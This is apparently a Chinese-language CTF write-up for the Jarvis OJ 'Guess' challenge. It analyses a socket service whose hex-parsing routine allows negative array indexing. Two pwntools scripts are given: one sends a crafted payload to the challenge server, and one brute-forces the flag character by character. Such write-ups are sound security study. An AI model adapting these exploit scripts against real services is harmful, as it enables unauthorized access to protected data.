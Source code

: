 ```yaml
---
title: Jarvis OJ - Guess の Write-Up
date: 2020-08-31 16:41:05
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- Stack
---
```

## Step 1

&emsp;&emsp;首先尝试运行程序，发现没有任何回显：

![](/img/Guess/Guess1.png)

<!-- more -->

&emsp;&emsp;checksec一下：

![](/img/Guess/Guess2.png)

&emsp;&emsp;开启了DEP，栈上不可执行。

## Step 2

&emsp;&emsp;将程序丢到IDA中，首先是main函数：

![](/img/Guess/Guess3.png)

&emsp;&emsp;这很明显是一个socket服务器端的代码，监听的端口是0x270f即9999。nc上去看一下：

![](/img/Guess/Guess4.png)

&emsp;&emsp;再回到程序中去看下处理函数handle()：

![](/img/Guess/Guess5.png)

&emsp;&emsp;首先有一个alarm定时函数超时退出，会影响动态调试，可以把这个函数用NOP patch掉。后面接收的输入长度和申明的变量长度一致，不存在溢出。

&emsp;&emsp;接着是rtrim()函数：

![](/img/Guess/Guess6.png)

&emsp;&emsp;这个函数把输入的字符串下标为奇数位的位置清０，但是gdb attach上去看了一下发现并没有改变。

&emsp;&emsp;根据逆向的伪代码发现是通过fork创建子程序而不是多线程，所以需要找一下具体子程序的进程号：

![](/img/Guess/Guess7.png)

&emsp;&emsp;152是父进程的进程号，`nc 127.0.0.1 9999`之后程序会fork一个子进程，进程号为155。接下来`gdb attach 155`看下子进程的堆栈信息：

![](/img/Guess/Guess8.png)

&emsp;&emsp;在连接的程序界面输入100个‘1’跳过第一段输入字符长度的检测：

![](/img/Guess/Guess9.png)

&emsp;&emsp;在执行rtrim()函数之前的位置下个断点：

![](/img/Guess/Guess10.png)

&emsp;&emsp;再在执行完rtrim()函数后下个断点：

![](/img/Guess/Guess11.png)

&emsp;&emsp;发现输入的字符串并没有改变……那就跳过不管了。最后调用了is_flag_correct()函数：

![](/img/Guess/Guess12.png)

&emsp;&emsp;该函数首先检测输入的字符串长度是不是100，输入存放在flag_hex。然后将0x401100位置的数据复制到bin_by_hex，0x401100位置的数据除了0-9以及大小写ABCDEF之外都是0xFF。接着将FAKE{9b355e394d2070ebd0df195d8b234509cc29272bc412}赋给flag（当然这是假的flag）。

&emsp;&emsp;接下来是函数的主体部分，对用户输入的字符串进行处理，每两位为一组，循环50次。将输入的字符在bin_by_hex中寻找对应的值，如果不在0-9以及大小写ABCDEF中时退出程序。然后通过’｜’运算将输入的100字节长度的字符串变为50字节长度，再比较given_flag和flag，返回比较结果。

&emsp;&emsp;这里是将flag_hex字符串的ASC II值当作bin_by_hex的索引，相当于将原来char类型的变量转换成了int类型，就会造成问题。当我们控制输入的字符串最终变为负数的索引时，程序就会回去找对应的值。

&emsp;&emsp;而根据栈的布局，bin_by_hex的地址是高于flag的，结合上一句提到的负索引问题，我们就可以实现将given_flag设置为真正的flag从而通过检验。

&emsp;&emsp;但是我们依然不清楚真正的flag是什么，所以将正确的flag修改每一位，猜测每一位，这样最终猜解出来flag。

## Step 3

&emsp;&emsp;分析结束就是具体怎么利用了，首先根据id_flag_correct函数bin_by_hex和flag相距0x40即64，所以我们需要控制索引每位减64。

&emsp;&emsp;测试脚本如下：

```Python
from pwn import *

context.log_level = 'debug'

sh = remote('pwn.jarvisoj.com', 9878)

payload = ""
for i in range(50):
    payload += "0" + chr(0x40 + 128 + i)

sh.recvuntil("guess> ")
sh.sendline(payload)

sh.recv()
sh.close()
```

&emsp;&emsp;运行结果如下图所示：

![](/img/Guess/Guess13.png)

&emsp;&emsp;可见我们成功的将given_flag设置为了真正的flag，通过了检测。下一步就是要尝试一个一个的爆破，获取正确的flag：

```Python
from pwn import *
import string

# context.log_level = 'debug'

sh = remote('pwn.jarvisoj.com', 9878)

payload = ""
for i in range(50):
    payload += "0" + chr(0x40 + 128 + i)

sh.recvuntil("guess> ")

shellcode = list(payload)
flag = ""
for i in range(50):
    for j in string.printable:
        shellcode[2 * i]  = j.encode('hex')[0]
        shellcode[2 * i + 1] = j.encode('hex')[1]
        sh.sendline("".join(shellcode))
        print "".join(str(i) for i in shellcode)

        ans = sh.recvline()
        print ans

        if ('Yaaaay!' in ans) == 1:
            flag += j
            break

print flag

sh.close()
```

&emsp;&emsp;脚本运行结果：

![](/img/Guess/Guess14.png)